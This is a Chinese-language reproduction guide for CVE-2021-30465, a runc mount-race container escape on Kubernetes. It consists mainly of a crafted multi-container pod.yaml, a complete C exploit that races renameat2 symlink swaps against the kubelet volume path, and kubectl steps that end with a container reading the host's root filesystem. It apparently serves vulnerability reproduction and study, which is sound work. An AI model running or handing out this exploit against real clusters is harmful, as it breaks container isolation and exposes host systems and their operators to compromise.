


# CVE-2021-30465 复现

## 环境

* Linux: Ubuntu 20.04
* Kubernetes: 1.21.0
* containerd: 1.4.4

## 步骤

创建一个包含多个容器的pod，我这里包含了20个，配置文件（[pod.yaml](pod.yaml)）内容如下：

```yaml
apiVersion: v1
kind: Pod
metadata:
    name: pod1
spec:
    terminationGracePeriodSeconds: 1
    containers:
    - name: c1
      image: ubuntu:latest
      command: [ "/bin/sleep", "inf" ]
      volumeMounts:
        - name: test1
          mountPath: /test1
        - name: test2
          mountPath: /test2
    - name: c2
      image: abc.cba/aaa:latest
      command: [ "/bin/sleep", "inf" ]
      volumeMounts:
        - name: test1
          mountPath: /test1
        - name: test2
          mountPath: /test1/mnt1
        - name: test2
          mountPath: /test1/mnt2
        - name: test2
          mountPath: /test1/mnt3
        - name: test2
          mountPath: /test1/mnt4
        - name: test2
          mountPath: /test1/zzz
    - name: c3
      image: abc.cba/aaa:latest
      command: [ "/bin/sleep", "inf" ]
      volumeMounts:
        - name: test1
          mountPath: /test1
        - name: test2
          mountPath: /test1/mnt1
        - name: test2
          mountPath: /test1/mnt2
        - name: test2
          mountPath: /test1/mnt3
        - name: test2
          mountPath: /test1/mnt4
        - name: test2
          mountPath: /test1/zzz
    - name: c4
      image: abc.cba/aaa:latest
      command: [ "/bin/sleep", "inf" ]
      volumeMounts:
        - name: test1
          mountPath: /test1
        - name: test2
          mountPath: /test1/mnt1
        - name: test2
          mountPath: /test1/mnt2
        - name: test2
          mountPath: /test1/mnt3
        - name: test2
          mountPath: /test1/mnt4
        - name: test2
          mountPath: /test1/zzz
    - name: c5
      image: abc.cba/aaa:latest
      command: [ "/bin/sleep", "inf" ]
      volumeMounts:
        - name: test1
          mountPath: /test1
        - name: test2
          mountPath: /test1/mnt1
        - name: test2
          mountPath: /test1/mnt2
        - name: test2
          mountPath: /test1/mnt3
        - name: test2
          mountPath: /test1/mnt4
        - name: test2
          mountPath: /test1/zzz
    - name: c6
      image: abc.cba/aaa:latest
      command: [ "/bin/sleep", "inf" ]
      volumeMounts:
        - name: test1
          mountPath: /test1
        - name: test2
          mountPath: /test1/mnt1
        - name: test2
          mountPath: /test1/mnt2
        - name: test2
          mountPath: /test1/mnt3
        - name: test2
          mountPath: /test1/mnt4
        - name: test2
          mountPath: /test1/zzz
    - name: c7
      image: abc.cba/aaa:latest
      command: [ "/bin/sleep", "inf" ]
      volumeMounts:
        - name: test1
          mountPath: /test1
        - name: test2
          mountPath: /test1/mnt1
        - name: test2
          mountPath: /test1/mnt2
        - name: test2
          mountPath: /test1/mnt3
        - name: test2
          mountPath: /test1/mnt4
        - name: test2
          mountPath: /test1/zzz
    - name: c8
      image: abc.cba/aaa:latest
      command: [ "/bin/sleep", "inf" ]
      volumeMounts:
        - name: test1
          mountPath: /test1
        - name: test2
          mountPath: /test1/mnt1
        - name: test2
          mountPath: /test1/mnt2
        - name: test2
          mountPath: /test1/mnt3
        - name: test2
          mountPath: /test1/mnt4
        - name: test2
          mountPath: /test1/zzz
    - name: c9
      image: abc.cba/aaa:latest
      command: [ "/bin/sleep", "inf" ]
      volumeMounts:
        - name: test1
          mountPath: /test1
        - name: test2
          mountPath: /test1/mnt1
        - name: test2
          mountPath: /test1/mnt2
        - name: test2
          mountPath: /test1/mnt3
        - name: test2
          mountPath: /test1/mnt4
        - name: test2
          mountPath: /test1/zzz
    - name: c10
      image: abc.cba/aaa:latest
      command: [ "/bin/sleep", "inf" ]
      volumeMounts:
        - name: test1
          mountPath: /test1
        - name: test2
          mountPath: /test1/mnt1
        - name: test2
          mountPath: /test1/mnt2
        - name: test2
          mountPath: /test1/mnt3
        - name: test2
          mountPath: /test1/mnt4
        - name: test2
          mountPath: /test1/zzz
    - name: c11
      image: abc.cba/aaa:latest
      command: [ "/bin/sleep", "inf" ]
      volumeMounts:
        - name: test1
          mountPath: /test1
        - name: test2
          mountPath: /test1/mnt1
        - name: test2
          mountPath: /test1/mnt2
        - name: test2
          mountPath: /test1/mnt3
        - name: test2
          mountPath: /test1/mnt4
        - name: test2
          mountPath: /test1/zzz
    - name: c12
      image: abc.cba/aaa:latest
      command: [ "/bin/sleep", "inf" ]
      volumeMounts:
        - name: test1
          mountPath: /test1
        - name: test2
          mountPath: /test1/mnt1
        - name: test2
          mountPath: /test1/mnt2
        - name: test2
          mountPath: /test1/mnt3
        - name: test2
          mountPath: /test1/mnt4
        - name: test2
          mountPath: /test1/zzz
    - name: c13
      image: abc.cba/aaa:latest
      command: [ "/bin/sleep", "inf" ]
      volumeMounts:
        - name: test1
          mountPath: /test1
        - name: test2
          mountPath: /test1/mnt1
        - name: test2
          mountPath: /test1/mnt2
        - name: test2
          mountPath: /test1/mnt3
        - name: test2
          mountPath: /test1/mnt4
        - name: test2
          mountPath: /test1/zzz
    - name: c14
      image: abc.cba/aaa:latest
      command: [ "/bin/sleep", "inf" ]
      volumeMounts:
        - name: test1
          mountPath: /test1
        - name: test2
          mountPath: /test1/mnt1
        - name: test2
          mountPath: /test1/mnt2
        - name: test2
          mountPath: /test1/mnt3
        - name: test2
          mountPath: /test1/mnt4
        - name: test2
          mountPath: /test1/zzz
    - name: c15
      image: abc.cba/aaa:latest
      command: [ "/bin/sleep", "inf" ]
      volumeMounts:
        - name: test1
          mountPath: /test1
        - name: test2
          mountPath: /test1/mnt1
        - name: test2
          mountPath: /test1/mnt2
        - name: test2
          mountPath: /test1/mnt3
        - name: test2
          mountPath: /test1/mnt4
        - name: test2
          mountPath: /test1/zzz
    - name: c16
      image: abc.cba/aaa:latest
      command: [ "/bin/sleep", "inf" ]
      volumeMounts:
        - name: test1
          mountPath: /test1
        - name: test2
          mountPath: /test1/mnt1
        - name: test2
          mountPath: /test1/mnt2
        - name: test2
          mountPath: /test1/mnt3
        - name: test2
          mountPath: /test1/mnt4
        - name: test2
          mountPath: /test1/zzz
    - name: c17
      image: abc.cba/aaa:latest
      command: [ "/bin/sleep", "inf" ]
      volumeMounts:
        - name: test1
          mountPath: /test1
        - name: test2
          mountPath: /test1/mnt1
        - name: test2
          mountPath: /test1/mnt2
        - name: test2
          mountPath: /test1/mnt3
        - name: test2
          mountPath: /test1/mnt4
        - name: test2
          mountPath: /test1/zzz
    - name: c18
      image: abc.cba/aaa:latest
      command: [ "/bin/sleep", "inf" ]
      volumeMounts:
        - name: test1
          mountPath: /test1
        - name: test2
          mountPath: /test1/mnt1
        - name: test2
          mountPath: /test1/mnt2
        - name: test2
          mountPath: /test1/mnt3
        - name: test2
          mountPath: /test1/mnt4
        - name: test2
          mountPath: /test1/zzz
    - name: c19
      image: abc.cba/aaa:latest
      command: [ "/bin/sleep", "inf" ]
      volumeMounts:
        - name: test1
          mountPath: /test1
        - name: test2
          mountPath: /test1/mnt1
        - name: test2
          mountPath: /test1/mnt2
        - name: test2
          mountPath: /test1/mnt3
        - name: test2
          mountPath: /test1/mnt4
        - name: test2
          mountPath: /test1/zzz
    - name: c20
      image: abc.cba/aaa:latest
      command: [ "/bin/sleep", "inf" ]
      volumeMounts:
        - name: test1
          mountPath: /test1
        - name: test2
          mountPath: /test1/mnt1
        - name: test2
          mountPath: /test1/mnt2
        - name: test2
          mountPath: /test1/mnt3
        - name: test2
          mountPath: /test1/mnt4
        - name: test2
          mountPath: /test1/zzz
    volumes:
        - name: test1
          emptyDir:
            medium: "Memory"
        - name: test2
          emptyDir:
            medium: "Memory"
```

可以看到除了第一个容器以外，其他容器的镜像都是无效的，每个容器都挂载了一个test1卷和5个test2卷。

获取创建好的pod的UID：

```shell
sudo kubectl get pod pod1 -o yaml | grep uid
```

编写exp（[exp.c](exp.c)），其中的 **24a602eb-62e2-47dd-a083-9f44489582d6** 为刚刚获取的UID：

```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <sys/wait.h>

int main(int argc, char *argv[]) {
    char *name_mnts[] = {"mnt1", "mnt2", "mnt3", "mnt4"};
    char *name_tmps[] = {"mnt-tmp1", "mnt-tmp2", "mnt-tmp3", "mnt-tmp4"};
    char *ld = "/var/lib/kubelet/pods/24a602eb-62e2-47dd-a083-9f44489582d6/volumes/kubernetes.io~empty-dir/";

    int dirfd = open(".", O_DIRECTORY|O_CLOEXEC);

    pid_t pid;
    int i;
    for (i=0; i<4; ++i)
    {
        pid = fork();
        if (pid == 0)
            break;
    }

    if (pid != 0)
        wait(NULL);
    else {
        mkdir(name_mnts[i], 0755);
        symlink(ld, name_tmps[i]);
        while (1)
            renameat2(dirfd, name_mnts[i], dirfd, name_tmps[i], RENAME_EXCHANGE);
    }
    return 0;
}
```

将编译好的exp文件放到c1容器中的 **/test1** 目录下，然后创建一个符号链接：

```shell
ln -s / /test2/test2
```

接着cd到 **/test1** 目录，运行exp。

exp开始运行之后，回到宿主，更新其他容器的镜像使它们启动：

```shell
for c in {2..20}; do
    sudo kubectl set image pod pod1 c$c=ubuntu:latest
done
```



列出每个容器的 **/test1/zzz** 目录下的内容：

```shell
for c in {2..20}; do
    echo c$c
    sudo kubectl exec -it pod/pod1 -c c$c -- ls /test1/zzz
done
```



在上面的输出结果中，可以看到c20成功获取到了宿主根目录的内容。
